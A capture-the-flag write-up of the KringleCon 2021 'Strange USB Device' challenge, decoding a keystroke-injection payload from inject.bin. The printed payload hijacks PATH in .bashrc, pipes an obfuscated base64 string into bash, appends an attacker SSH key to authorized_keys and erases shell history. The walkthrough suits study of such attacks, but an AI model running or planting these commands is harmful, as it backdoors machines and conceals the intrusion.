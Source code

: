 ```yaml
---
title: Kringlecon 2021 - Strange USB Device
---
```

# Introduction
This is a challenge with potential to learn alot, or just cruise through for potential CTF points. The description of the challenge is as follows:
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.
The flag we are looking for is the trolls username.

# Tools
We are handed a script called mallard.py and a USB device at /mnt/USBDEVICE/. First off, the mallard script. The help page shows the following:
```
elf@cb3fea375384:~$ python mallard.py -h                
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
```
And the contents of /mnt/USBDEVICE/ is a file called inject.bin.

Well, it seems straight forward. We have a script that takes files (default inject.bin), and a file called inject.bin.
First lets copy the file so we have a backup incase something wrong happens.

# Enumeration
```
elf@cb3fea375384:~$ cp /mnt/USBDEVICE/inject.bin /home/elf/
elf@cb3fea375384:~$ python mallard.py --file inject.bin 
...

STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```
It seems like one of the last things the troll tried to do was so bad he wanted to hide it. He used bash to base64 decrypt a string and run the commands in that string. Lets see what it does. All we need to do is to copy the command and remove bash at the end.
```
echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```
Aha! ickymcgoop wanted to be authurized to ssh himself into the device. Well, that was that.
